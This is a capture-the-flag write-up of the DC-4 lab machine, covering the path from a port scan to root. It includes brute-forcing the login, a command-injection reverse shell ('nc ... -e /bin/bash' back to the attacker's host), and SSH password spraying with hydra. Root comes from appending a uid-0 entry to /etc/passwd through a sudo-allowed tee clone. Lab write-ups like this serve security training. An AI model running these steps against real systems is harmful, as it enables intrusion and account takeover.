







## DC-4: Writeup

Nmap reveals just two ports open:

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 8d6057066c27e02f762ce642c001ba25 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp6/VowbK8MWfMDQsxHRV2yvL8ZO+FEkyIBPnDwTVKkJiVKaJMZ5ztAwTnkc30c3tvC/yCqDAJ5IbHzgvR3kHKS37d17K+/OLxalDutFjrWjG7mBxhMW/0gnrCqJokZBDXDuvHQonajsfSN6FmWoP0PDsfL8NQXwWIoMvTRYHtiEQqczV5CYZZtMKuOyiLCiWINUqKMwY+PTb0M9RzSGYSJvN8sZZnvIw/xU7xBCmaWuq8h2dIfsxy+FhrwZMhvhJOpBYtwZB+hos3bbV5FKHhVztxEo+Y2vyKTl6MXJ4qwCChJdaBAip/aUt1zDoF3cIb+yebteyDk8KIqmp5Ju4r
|   256 e7838cd7bb84f32ee8a25f796f8e1930 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIbZ4PXPXShXCcbe25IY3SYbzB4hxP4K2BliUGtuYSABZosGlLlL1Pi214yCLs3ORpGxsRIHv8R0KFQX+5SNSog=
|   256 fd39478a5e58339973739e227f904f4b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDcvQZ2DbLqSSOzIbIXhyrDJ15duVKd9TEtxfX35ubsM
80/tcp open  http    syn-ack nginx 1.15.10
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: System Tools
|_http-server-header: nginx/1.15.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So, assuming this is all there is to be seen, the way in is likely through the website. Checking out the web service, it's just a login page. 



Let's see if there's anything else.
Fuzz the web root:

```bash
$ ffuf -u http://192.168.216.195/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.216.195/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 302, Size: 206, Words: 6, Lines: 16, Duration: 50ms]
index.php               [Status: 200, Size: 506, Words: 20, Lines: 24, Duration: 51ms]
logout.php              [Status: 302, Size: 163, Words: 6, Lines: 10, Duration: 50ms]
.                       [Status: 301, Size: 170, Words: 5, Lines: 8, Duration: 40ms]
command.php             [Status: 302, Size: 704, Words: 47, Lines: 25, Duration: 44ms]
index.Php               [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 45ms]
```

I try to access these pages, but each time, I'm redirected to the main page to login. There doesn't seem to be any other choice than to brute force this login page. Given the page login page contains the name Admin, that's likely the user here, which means I just need to brute force the password.

Ideally, I'd like to use `hydra` for this, but this is not really an option here because there is no additional information that the website will give you for an incorrect login. To do a http-post-form brute force, you'll need three colon separate things:

1. The path to the page
2. The form with USER and PASS specified
3. Something that tells hydra when an attempt has failed

Without this information, you'll have in incomplete command that would look like this:

```bash
hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt 192.168.216.195 http-post-form '/index.php:username=^USER^&password=^PASS^:' -vV
```

Burp is the better alternative here, but there is an annoying hurdle if you use the Community edition: Intruder attacks are time-throttled. So, if you don't have the Pro edition, you'll have to be patient. Start with smaller versions of rockyou.txt, then work your way up until you login successfully:



Login creds: `admin:happy`

Once you login, you'll be able to access the features in `command.php`:



These features appear to be limited to things like listing the current directory. I captured the request to test it out and change things. Here you can see it just lists the current web directory:



If you change the `radio` parameter to `whoami`, you'll get `www-data`, so there's code execution:



I then modified the command to ping to see if I could reach my box:

`radio=ping+-c+1+192.168.45.5&submit=Run`



I could:

```bash
$ sudo tcpdump -ni tun0 icmp
[sudo] password for lemmy:
Sorry, try again.
[sudo] password for lemmy:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:30:37.570037 IP 192.168.216.195 > 192.168.45.5: ICMP echo request, id 1545, seq 1, length 64
18:30:37.570054 IP 192.168.45.5 > 192.168.216.195: ICMP echo reply, id 1545, seq 1, length 64
```

Time for a reverse shell. I'll try a simple netcat connection, urlencoding the value in Burp:

`nc 192.168.45.5 443 -e /bin/bash`

I catch a shell as `www-data`:

```bash
www-data@dc-4:/usr/share/nginx/html$ whowhoami
www-data
www-data@dc-4:/usr/share/nginx/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-4:/usr/share/nginx/html$ hostname
dc-4
www-data@dc-4:/usr/share/nginx/html$ hostname -I
192.168.216.195
www-data@dc-4:/usr/share/nginx/html$ ls
```

I can collect `local.txt`:

```bash
www-data@dc-4:/home/jim$ ls -la
total 36
drwxr-xr-x 3 jim  jim  4096 Mar 10 08:35 .
drwxr-xr-x 5 root root 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7  2019 backups
-rw-r--r-- 1 root root   33 Mar 10 08:35 local.txt
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6  2019 test.sh
www-data@dc-4:/home/jim$ cat local.txt
91e36270891403df4b483f7aea192090
```

Inside `backups`, I find `old-passwords.bak`. I transfer it over to my machine, take the usernames in the home directory, then use hydra to see if these passwords work on any of the users. I find jim's ssh login this way:

```bash
$ hydra -L users.txt -P old-passwords.bak ssh://192.168.216.195
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-09 18:37:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 759 login tries (l:3/p:253), ~48 tries per task
[DATA] attacking ssh://192.168.216.195:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 605 to do in 00:04h, 14 active
[STATUS] 113.33 tries/min, 340 tries in 00:03h, 421 to do in 00:04h, 14 active
[22][ssh] host: 192.168.216.195   login: jim   password: jibril04
```

ssh'ing as jim, I find he has mail:

```bash
$ ssh jim@192.168.238.195
The authenticity of host '192.168.238.195 (192.168.238.195)' can't be established.
ED25519 key fingerprint is SHA256:0CH/AiSnfSSmNwRAHfnnLhx95MTRyszFXqzT03sUJkk.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:54: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.238.195' (ED25519) to the list of known hosts.
jim@192.168.238.195's password:
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ whoami
jim
jim@dc-4:~$ id
uid=1002(jim) gid=1002(jim) groups=1002(jim)

jim@dc-4:/var/mail$ cat jim
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
<SNIP>
```

Let's try out this password for charles:

```bash
$ ssh charles@192.168.216.195
charles@192.168.216.195's password:
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
charles@dc-4:~$
```

It works. Check `sudo` privileges:

```bash
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```

Check out this binary's features:

```bash
charles@dc-4:~$ /usr/bin/teehee --help
Usage: /usr/bin/teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'
```

So I can append something to a file with root privileges. I'll generate a passwd-grade password with the value "password", craft an entry to `/etc/passwd`, then append it with this program:

```bash
charles@dc-4:~$ sudo /usr/bin/teehee -a /etc/passwd
lemmy:$1$lemmy$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash
lemmy:$1$lemmy$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash
^C
```

Confirm it worked:

```bash
charles@dc-4:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
Debian-exim:x:108:112::/var/spool/exim4:/bin/false
lemmy:$1$lemmy$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash
```

Change to the new root user:

```bash
charles@dc-4:~$ su lemmy
Password:
root@dc-4:/home/charles# cd /root
root@dc-4:~# ls
flag.txt  proof.txt
root@dc-4:~# cat proof.txt
2655302305ac7dbb7b4a301ea4927c29
root@dc-4:~# cat flag.txt


888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
root@dc-4:~# whoami
root
root@dc-4:~# hostname -I
192.168.216.195
```

